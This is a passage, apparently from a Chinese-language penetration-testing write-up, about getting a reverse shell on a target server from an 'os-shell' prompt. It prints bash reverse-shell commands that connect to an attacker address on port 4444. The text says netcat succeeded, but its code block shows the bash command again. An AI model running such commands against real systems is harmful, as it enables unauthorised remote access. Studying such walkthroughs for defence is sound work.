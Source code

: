 [![](assets/1705886707-ae396fd7684eebecd8c17e2aca7c7e47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120725-6b140b66-b749-1.png)  
[![](assets/1705886707-3b25bed7017943fedd832be6f40c77a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120743-7624216c-b749-1.png)  
随后我们去尝试反弹 shell，发现 bash 反弹 (/bin/bash -i >& /dev/tcp/192.168.204.135/4444 0>&1) 失败，随后经历过一些尝试发现可以使用 nc 来反弹 shell，执行结果如下：

```plain
os-shell> /bin/bash -c 'bash -i >& /dev/tcp/192.168.204.135/4444 0>&1'
```

[![](assets/1705886707-4d273f35c7f0034a89e8c7f9e29bb270.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120821-8cb215ec-b749-1.png)  
随后我们在攻击主机上获取到目标服务器的 shell，至于后续的提权就不做演示了  
